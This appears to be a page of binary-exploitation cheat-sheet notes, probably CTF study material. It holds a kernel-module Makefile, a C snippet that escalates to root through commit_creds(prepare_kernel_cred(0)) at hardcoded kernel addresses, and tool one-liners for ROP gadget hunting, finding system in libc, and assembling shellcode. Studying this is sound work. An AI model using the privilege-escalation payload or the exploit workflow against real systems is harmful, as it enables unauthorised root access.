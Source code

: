 <div class="spoiler"><div class="spoiler-title" markdown="1">
Compile kernel module (linux contains special Makefile for kernel modules compilation)
</div><div class="spoiler-text" markdown="1">

``` make
obj-m := MODULE_EXAMPLE.o

all:
    make -C "/lib/modules/`uname -r`/build" M=${PWD} modules

clean:
    make -C /lib/modules/`uname -r`/build M=${PWD} clean
```
</div></div>

<br>

<div class="spoiler"><div class="spoiler-title" markdown="1">

#### root privilege escalation snippet
</div><div class="spoiler-text" markdown="1">

``` cpp
/* Addresses from System.map (remember KASLR problem) */
#define COMMIT_CREDS_PTR	0xffffffff810a2840lu
#define PREPARE_KERNEL_CRED_PTR	0xffffffff810a2c30lu

typedef int __attribute__((regparm(3))) (*_commit_creds)(unsigned long cred);
typedef unsigned long __attribute__((regparm(3))) (*_prepare_kernel_cred)(unsigned long cred);

_commit_creds commit_creds = (_commit_creds)COMMIT_CREDS_PTR;
_prepare_kernel_cred prepare_kernel_cred = (_prepare_kernel_cred)PREPARE_KERNEL_CRED_PTR;

void __attribute__((regparm(3))) root_it(unsigned long arg1, bool arg2)
{
	commit_creds(prepare_kernel_cred(0));
}
```

</div></div>



<br><br>

---
---
---

# Tools usage examples (cribs)

``` bash
socat TCP-LISTEN:7777,reuseaddr,fork EXEC:"./binary"

ROPgadget --binary /lib/x86_64-linux-gnu/libc.so.6 --only 'pop|ret'

strings -tx /lib/x86_64-linux-gnu/libc.so.6 | grep "/bin"

objdump -d /lib/x86_64-linux-gnu/libc.so.6 | grep "__libc_system"

# compile assembler
nasm -f elf ./shellcode.asm && ld -melf_i386 -o shellcode shellcode.o
```
